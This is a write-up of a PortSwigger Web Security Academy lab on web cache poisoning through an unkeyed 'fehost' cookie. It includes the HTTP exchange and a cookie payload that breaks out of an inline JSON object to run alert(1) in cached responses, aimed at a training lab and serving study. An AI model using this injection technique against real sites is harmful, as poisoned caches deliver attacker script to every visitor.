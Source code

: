 # [Lab: Web cache poisoning with an unkeyed cookie](portswigger.net/web-security/web-cache-poisoning/exploiting-design-flaws/lab-web-cache-poisoning-with-an-unkeyed-cookie)

## Lab

This lab is vulnerable to web cache poisoning because cookies aren't included in the cache key. An unsuspecting user regularly visits the site's home page. To solve this lab, poison the cache with a response that executes `alert(1)` in the visitor's browser.

## Scan

Param Miner extension results, `fehost` is an unkeyed cookie:

![param-miner.png](./../img/lab-2-param-miner.png)

## Analysis

Observe that the `fehost` value has been passed to js script

```http
GET / HTTP/1.1
Cookie: fehost=prod-cache-01;
```

```http
HTTP/1.1 200 OK
Set-Cookie: fehost=prod-cache-01; Secure; HttpOnly
Cache-Control: max-age=30
Age: 0
X-Cache: miss

<script>
    data = {
        "host":"0a9f00a4033e1663c454555000e6009a.web-security-academy.net",
        "path":"/",
        "frontend":"prod-cache-01"
    }
</script>
```

## Solutions

cache poisoning:

```http
GET / HTTP/1.1
Cookie: fehost=a",+"a"%3a+alert(1),+"b"%3a+"b;
```

cache:

```js
<script>
    data = {
        "host":"0a9f00a4033e1663c454555000e6009a.web-security-academy.net",
        "path":"/",
        "frontend":"a", "a": alert(1), "b": "b"
    }
</script>
```

